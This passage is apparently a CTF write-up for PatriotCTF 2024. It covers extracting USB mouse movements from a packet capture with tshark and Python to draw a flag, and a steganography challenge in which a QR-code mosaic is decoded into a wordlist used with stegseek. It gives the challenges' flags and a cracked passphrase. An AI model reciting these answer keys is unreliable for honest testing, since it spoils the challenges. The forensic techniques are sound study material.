

The hid data can be extracted using tshark on Linux.
```
tshark -r ./capture.pcapng -Y 'frame.len == 35' -T fields -e usbhid.data > usbPcapData
```

To parse the usb packets and draw the mouse movements, this python script was used. 
```python
from PIL import Image, ImageDraw

img = Image.new("RGB", (6500, 6500), "black")
draw = ImageDraw.Draw(img)

hid = open('usbPcapData','r').read().split("\n")

write=False

for data in hid:
    if data:
        if data == "0100000000000000":
            write=True
        elif data == "0000000000000000":
            write=False

        if write:
            x = int(bytes.fromhex(data[4:8])[::-1].hex(),16)//10
            y = int(bytes.fromhex(data[8:12])[::-1].hex(),16)//10
            draw.line((x, y,x+5,y+5), fill="white", width=5)

img.save("result.png")
img.show()
```
Flag is shown.



Flag: `PCTF{PLZ_DONT_HACK_ME!}`

## Abnormal Maybe Illegal  [Forensics]

Solves: `9` Points: `484` Author: `Ryan Wong (ShadowBringer)`

Description: `We have recently discovered tons of traffic leaving our network. We have reason to believe they are using an abnormal method. Can you figure out what data they are exfiltrating?`

<a href="/assets/zip/pctf2024/abnormal_illegal.pcapng" class="btn btn-primary" download>
  <i class="fas fa-download"></i> abnormal_illegal.pcapng
</a>

<br>

This challenge was solved by a good friend, so credit where credit's due, please check his writeup at [shellunease.github.io](https://shellunease.github.io/posts/patrioctf-2024-abnormal-maybe-illegal/)

## Let's Play (steg)Hide & Seek [Misc]

Solves: `50` Points: `402` Author: `David Morgan (r0m)`

Description: `Not much of a backstory here... there is an embedded flag in here somewhere, your job is to find it.`

<a href="/assets/zip/pctf2024/qr_mosaic.bmp" class="btn btn-primary" download>
  <i class="fas fa-download"></i> qr_mosaic.bmp
</a>

<br>

We are provided with a raster graphics image file called qr_mosaic.bmp. Opening it shows qr code blocks as in a mosaic.


The idea here is clear, read each qr code block and somehow use the values to retrieve the flag, first i cut each qr code block separately using the following script.
```python
import os
from PIL import Image
import math

# Define constants
QR_CODE_SIZE = 58  # Each QR code block is 58x58 pixels
MOSAIC_WIDTH = 2320  # Width of the whole image
MOSAIC_HEIGHT = 1450  # Height of the whole image
QR_CODES_PER_ROW = MOSAIC_WIDTH // QR_CODE_SIZE
QR_CODES_PER_COL = MOSAIC_HEIGHT // QR_CODE_SIZE

# Load the full BMP mosaic image
mosaic_image = Image.open('<REDACTED>/PCTF/misc/qr_mosaic.bmp')

# Create a temporary folder in the current working directory
temp_folder = os.path.join(os.getcwd(), '<REDACTED>/PCTF/misc/qr_code_blocks')
os.makedirs(temp_folder, exist_ok=True)

# Function to calculate Euclidean color distance
def color_distance(pixel1, pixel2):
    # Unpack the RGB values from the tuples
    r1, g1, b1 = pixel1
    r2, g2, b2 = pixel2
    
    # Calculate the Euclidean distance
    return math.sqrt((r1 - r2)**2 + (g1 - g2)**2 + (b1 - b2)**2)


# Tolerance for similar colors
tolerance = 75  # Adjust this value as needed

# Iterate through the mosaic and extract each QR code block
for row in range(QR_CODES_PER_COL):
    for col in range(QR_CODES_PER_ROW):
        # Calculate the bounding box for the current QR code block
        left = col * QR_CODE_SIZE
        upper = row * QR_CODE_SIZE
        right = left + QR_CODE_SIZE
        lower = upper + QR_CODE_SIZE

        # Crop the current QR code block from the mosaic
        qr_code_block = mosaic_image.crop((left, upper, right, lower))

        # Extract the color of the first pixel as the background color
        background_color = qr_code_block.getpixel((6, 6))

        # Convert the image to RGBA to allow for pixel manipulation
        qr_code_block_rgba = qr_code_block.convert('RGBA')

        # Replace the background color pixels with white, using tolerance
        for x in range(QR_CODE_SIZE):
            for y in range(QR_CODE_SIZE):
                pixel = qr_code_block_rgba.getpixel((x, y))
                if color_distance(pixel[:3], background_color) <= tolerance:
                    qr_code_block_rgba.putpixel((x, y), (255, 255, 255, 255))  # Replace with white

        # Save each QR code block as an image in the temp folder
        qr_code_filename = f'qr_code_row_{row+1}_col_{col+1}.png'
        qr_code_path = os.path.join(temp_folder, qr_code_filename)
        qr_code_block_rgba.save(qr_code_path)

print(f"All QR code blocks saved in the directory: {temp_folder}")
```
Running the script results in having 1000 qr code blocks.



Now into reading each one individually, this was done using a second python script.
```python
import os
from PIL import Image
from pyzbar.pyzbar import decode

# Define the directory containing the QR code images
temp_folder = '<REDACTED>/PCTF/misc/qr_code_blocks'

# Function to decode a single QR code image
def decode_qr_code(image_path):
    qr_image = Image.open(image_path)
    decoded_objects = decode(qr_image)
    return decoded_objects[0].data.decode('utf-8') if decoded_objects else ""

# Define the output file
output_file = 'wordlist.txt'

# Open the output file in write mode
with open(output_file, 'w') as f:
    # Iterate through each file in the directory
    for filename in os.listdir(temp_folder):
        try:
            if filename.endswith('.png'):
                file_path = os.path.join(temp_folder, filename)
                qr_data = decode_qr_code(file_path)
                # Write the decoded data to the file
                f.write(qr_data + '\n')
        except:
            continue
            

print(f"Decoded data written to {output_file}")
```
All the decoded qr codes are stored on a wordlist file, to be precise only 997 qr codes were succesfully decoded with a few exceptions, but this is good enough for what is next. The challenge's title hints towards steganography, so i use stegseek to extract hidden information on the mosaic image.
```
└─$ stegseek --crack qr_mosaic.bmp -wl wordlist.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""

[i] Original filename: "patriotCTF.bmp".
[i] Extracting to "qr_mosaic.bmp.out".
```
We get a new image.




Using stegseek on the new image to crack with qr codes' wordlist gives a new second image which is a qr code flag.
```
└─$ stegseek --crack qr_mosaic.bmp.out -wl wordlist.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "hD72ifj7tE83n"
[i] Original filename: "flag_qr_code.bmp".
[i] Extracting to "qr_mosaic.bmp.out.out".
```
Using [qrscanner](https://qrscanner.net/) we are able to scan the flag.



Flag: `Text: PCTF{QR_M0s41c_St3g0_M4st3r}`